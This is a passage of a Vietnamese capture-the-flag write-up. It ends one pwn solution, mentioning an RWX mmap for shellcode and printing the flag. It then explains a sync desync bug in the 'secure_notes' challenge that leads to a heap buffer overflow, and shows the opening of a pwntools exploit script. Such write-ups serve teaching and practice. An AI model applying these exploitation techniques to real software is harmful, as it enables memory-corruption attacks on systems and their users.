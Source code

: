 Một cách khác đó là ta có thể dùng syscall `mmap` để tạo ra một vùng nhớ RWX, sau đó ghi shellcode vào và chạy. 

flag: `PwnableVN{n0_m0r3_cSu__Wh!t3L!5T_Is_b3tT3r}`

## secure_notes v1

Bài này là một bài quản lý các note, gồm backend và một interface được chạy ở 2 process riêng biệt, interface sẽ giao tiếp với backend thông qua các Inter-Process Call. Bài này gồm 2 phần, phần 1 sẽ là tìm cách để exploit process interface và cat flag1, phần 2 sẽ là exploit process backend.  

Ở phía interface, khi tạo một note thì note sẽ được lưu vào một doubly linked list, ta có thể lựa chọn để encrypt note này hoặc không, nếu encrypt thì note này sẽ tự động được sync với notes ở backend. Ta cũng có những chức năng khác như sync, delete, edit các notes. 

### Auditing

Sau một thời gian audit, ta nhận thấy có một bug trong quá trình sync note, ở interface, ta có thể tự do add nhiều note với title và author trùng nhau, nhưng ở backend nếu thực hiện add 1 note với title và author trùng với 1 note đã tồn tại thì nó sẽ thực hiện update note đó. Vậy thì với cơ chế này, ta có thể kiến cho list node ở interface và backend bị desync, tiếp đó ta có thể thực hiện sync note từ backend về interface

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/4fbcadf8-fdfd-46ac-9735-906a157852ca)

Ở đây interface thực hiện sync các note copy buffer từ note được gửi về từ server và size cũng được quyết định bởi note của server, do đó ta sẽ có một bug heap-based buffer overflow. 

```py
from pwn import *
from pwn import unpack, p64, u64

if args.REMOTE:
    io = remote("secure_notes1.pwnable.vn", 31331)
else:
    io = process(["./interface", "./backend"])
    # io = process(["./interface_orig_patched", "./backend_orig_patched"])
    # io = remote("localhost", 8089)


libc = ELF("./libc.so.6.bak", checksec=False)
exe = ELF("./interface_orig", checksec=False)

def add_new_note(title, author, is_encrypted, passwd, content_length, content):
    io.sendlineafter(b"Choice: ", b"1")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    io.sendlineafter(b"Wanna encrypt this notes? (y/n) ", b"y" if is_encrypted else b"n")
    if is_encrypted:
        io.sendlineafter(b"What is your passwd? ", passwd)
    io.sendlineafter(b"How many bytes for content? ", str(content_length).encode())
    io.sendlineafter(b"Content:", content)

def note_sync(flag):
    io.sendlineafter(b"Choice: ", b"6")
    io.sendlineafter(b"You you want to [s]ync or [c]ommit note? (s/c)", b"c" if flag == 1 else b"s")

def delete_note(title, author, is_encrypted, password):
    io.sendlineafter(b"Choice: ", b"5")
    io.sendlineafter(b"Title: ", title)
    io.sendlineafter(b"Author: ", author)
    if is_encrypted:
        io.sendlineafter(b"Your password? ", password)

```